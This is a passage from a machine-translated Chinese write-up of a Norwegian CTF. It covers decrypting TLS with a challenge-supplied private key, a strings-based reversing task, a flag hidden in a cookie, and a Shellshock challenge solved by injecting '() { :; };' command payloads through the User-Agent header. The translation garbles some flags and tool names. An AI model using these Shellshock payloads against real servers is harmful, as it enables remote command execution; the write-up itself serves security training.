NaCL6R4Pwrr6yF+OZ904xdM/UOIABEixUDxR5lyXD+OqBDVppHcpYat7BZ4rT+QB
SnZBH2WFtj9rYESPZeARbuOm5sekT5rBz1JjabrrGJFYFsT0kmQgl2PEIR5ex6DR
zlsVE3o7Uh0CgYEAwNvf0hhcy7kr+uEY6vzkXEi7YVphrtZ9aly22BVAjHmoLwjO
mAvtVUYJ9XT7qCPZ3exhQWf/MqAwxWqukL2y/DxTwQ/tbTNdf/IJQhny9U2CBnAf
pcgQEBpM1seHTZn7gdLwDp4eyivTXHizCUD2e0lRNc8m1n5yx7K5cgIOBqkCgYEA
sWImvduEAEkeaPbOuF21LN9T4LQIpXlH7lpZ/3qQTrzNtNJEnflpt9KVmt0hnL3F
o71TX8V1PQTVjQZnoCej/cmQ5OwtRQPcct5hUito6u17eEOhyTr7J12dY2M3UkqY
Rny4pzw0BzpkAfk7CRaAK7og8rtMfHMRFdRaQggtlbUCgYBlaRtQxFRYc8ciJy6A
x8wg6mSgYx0c7Teg+dVIr/jA5ykP9EhYbSQIrJS2fv3Jz62+b/zmD7jyW5xX9RaO
lp7aeHsKb/vGOAodYUajI1os4qcDThvFrJ6DwnzT6wNYxJO7bW3W2jrFQ/xSx+I+
9qG+hQsfdaFCRM12P+X4unr/KA==
 — — -END PRIVATE KEY — — -
```

我保存密钥并将其添加到 wireshark:



向 Wireshark 添加 RSA 密钥—作者

然后我过滤掉所有的 TLS 包: **(http.request 或 tls.handshake.type eq 1)和！**

所有以前不可读的数据现在都是 ASCII 纯文本。快速浏览一下就知道现在有新文件了。一个非常有趣的 bloggonnlegg.txt，导出新文件并打开它。

```
 — — — — — — — — — — — — — dfa83fc40bbceed3
Content-Disposition: form-data; name=”text”; filename=”blogginnlegg.txt”
Content-Type: text/plainHeia bloggen! Jeg var en tur på kontoret i dag og tok noen bilder, se den flotte utsikten! Man kan se flere av de kjente byggene i Trondheim slik som Nidarosdomen og Gråkallen radarhode. Vi har til og med utsikt til Moholt studentby, hvor jeg bodde da jeg var student. Good times. I dag serverte de hjortegryte i kantina, nam nam! Vi får jo nærmest restaurantmat her på jobben. Men det var alt for denne gang. Husk å følge EGG{H4R3BL0GG3N} for å få med deg fremtidige blogginnlegg fra meg! Harald Harepus out!
 — — — — — — — — — — — — — dfa83fc40bbceed3 — 
```

现在你知道了，彩蛋是:**彩蛋{H4R3BL0GG3N}**

# 回动的

有 7 个基于逆向代码或程序的挑战。

## 简单鼻涕虫

```
In plain sight.
```

这个暗示再清楚不过了。下载**文件 simple_slug.exe** ，运行:**字符串。\simple_slug.exe** 在一个终端中。



屏幕打印字符串—按作者

这将打印出所有的字符串，如果你向下滚动一点点，你可以在一目了然中找到 flagg。**鸡蛋{ f 310 fa 99 CB 53 a 28 c 80 f1 ca 556 f 21 aaba }**

# 网

基于简单的网络利用有 2 个挑战。

## Bestemor Berthas Hjemmebakte

```
Bestemor Bertha baker byens mest utsøkte kjeks, noe som har vært en påskefavoritt i flere tiår. Påskekyllingene har i alle år brukt å bestille fra Bestemor Bertha, men har i det siste mistenkt at bakeriet har fått nye samarbeidspartnere. Finnes det noe muffens i kjeksdeigen her?
```

如果我们翻译的话，会是:伯莎奶奶自制。课文告诉我们，面团可能有问题。这是一个提示，让我们检查网站上的 cookie。



截图来自[伯莎奶奶的自制作业](http://Helsectf.no)——作者

当我们打开页面时，我们会收到通知并接受 cookie。如果我们打开并阅读，我们会看到有一个名为 flag 的 cookie。



截图来自[伯莎奶奶的自制作业](http://Helsectf.no)——作者

我们接受这个，然后去检查饼干里有什么。在那里我们找到了旗子。**鸡蛋{ HjemmebakteKjeksErBestKjeks }**



截图来自[奶奶贝莎的自制作业](http://Helsectf.no) —作者

## Skallsjokk

```
Vi har oppdaget en server som har fått skallsjokk. Kan du undersøke saken?
```

该文本说，服务器已收到外壳冲击，这是一个参考利用外壳冲击。我们打开网站，看到它一次又一次地加载自己，但是改变了地址字段中的 md5 散列。



截图来自[ShellShock](http://Helsectf.no)——作者

我试着用**(){:；替换用户代理来测试[shell shock exploit](https://blog.cloudflare.com/inside-shellshock/)；};/ bin / bash -c 'echo "test"**


来自 BurpSuite 的截图—作者

我在我信任的打嗝套件中完成所有这些。如果你以前没有用过，我推荐你看看我写的关于这个主题的文章。

[](/basic-burp-suite-usage-c23cf65152f2) [## 基本的打嗝套件用法

### 学习如何拦截和操纵入侵者和中继器的数据。

infosecwriteups.com](/basic-burp-suite-usage-c23cf65152f2) 

但是什么也没发生。然后我将焦点转向哈希值，它在地址栏中不断变化。认为这一定有原因。创建一个快速脚本来检索所有地址并进行比较。

脚本显示这是一个与众不同的地址。**CGI-bin/5c 54360 f 4185244 a9f 5 de 69 ad 4033966**。它能成为解决方案吗？回到 BurpSuite，我们测试新地址。

这次用了 exploit:**(){:；};回声；/bin/ls** 。是的，它向我们显示了文件夹中有两个文件:**5c 54360 f 4185244 a9 F5 de 69 ad 4033966**和**flagg _ f 874 a 24 ab 9537 A8 f 74 a 482 eed 3754892 . txt**



来自 BurpSuite 的截图—作者

然后我试着用:**(){:；};回声；/bin/cat flagg _ f 874 a 24 ab 9537 A8 f 74 a 482 eed 3754892 . txt .**没错，在那里的 flagg 是:**彩蛋{ bash _ prosseser er _ data _ etter _ funksjonsdefinisjon _ _ CVE-2014–6271 }**



来自 BurpSuite 的截图—作者

# 摘要

和所有其他比赛一样，你应该有更多的时间。我没有设法完成所有的任务，但在我设法完成的任务中，有一些好的和深思熟虑的挑战。

与前一年相比，这是一次非同寻常的升级，所以它会一直持续到现在，见证明年会发生什么真的会令人激动。

如果你仍然渴望更多的文章，我推荐你看看我的其他文章。我可以在这里推荐 PST 的《CTF 》,他们每年出版两篇作品。一个是复活节，一个是圣诞节，叫做 NPST，还有 PHST。

[](/npst-ctf-2020-write-up-79e47c1a7658) [## NPST CTF 2020 —报道

### 由 PST(挪威警方)为 2020 年 CTF 圣诞挑战赛撰写文章。这篇文章会陪你度过每一天…

infosecwriteups.com](/npst-ctf-2020-write-up-79e47c1a7658) [](/npst-ctf-2021-write-up-96b58464151d) [## NPST CTF 2021 —报道

### PST 制作的 2021 年 CTF 圣诞挑战日历详细演练。

infosecwriteups.com](/npst-ctf-2021-write-up-96b58464151d) [](/phst-ctf-2021-write-up-e6adf61eb38a) [## PHST CTF 2021 —报道

### 与挪威警察安全局一起捕捉旗帜—复活节版

infosecwriteups.com](/phst-ctf-2021-write-up-e6adf61eb38a) 

和往常一样，如果你喜欢这篇文章，在跳到阅读清单上的下一篇激动人心的文章之前，给它打个 50 分钟的拍子。


截图来自 [helsectf.no](http://helsectf.no) —作者